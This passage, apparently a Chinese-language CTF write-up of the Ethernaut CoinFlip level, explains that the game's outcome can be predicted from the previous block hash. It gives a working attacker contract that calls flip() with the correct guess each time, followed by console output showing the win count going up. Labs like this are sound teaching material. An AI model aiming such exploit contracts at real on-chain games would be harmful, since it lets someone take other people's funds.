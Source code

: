 ```solidity
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

要猜硬币的正反面，`uint256(blockhash(block.number - 1))`的奇偶是硬币正反面的决定值，猜对了`consecutiveWins`就加1，因为在猜之前我们就知道了blocknumber，因此是必中的

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }

}
```

最终我采用了该攻击合约，部署十个区块，在十个区块中攻击即可，每次攻击之后可以调用`contract.consecutiveWins()`来查看是否攻击成功。该攻击合约引入了SafeMath，并且constructor输入levelInstance来达到攻击的方法。（其实本质上不算是攻击，只是利用区块链的透明性进行交互）interface接口的作用就像该函数一样可以列出要调用的目标函数，在编译的时候就可以对该地址的该函数进行攻击

重复deploy，guess操作10次后提交

```solidity
await contract.consecutiveWins()
i {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
words: 
Array(2)
0: 4  ///这个显示的是consecutiveWins
length: 2
[[Prototype]]: Array(0)[[Prototype]]: Object

await contract.consecutiveWins()
i {negative: 0, words: Array(2), length: 1, red: null}
length: 1
negative: 0
red: null
```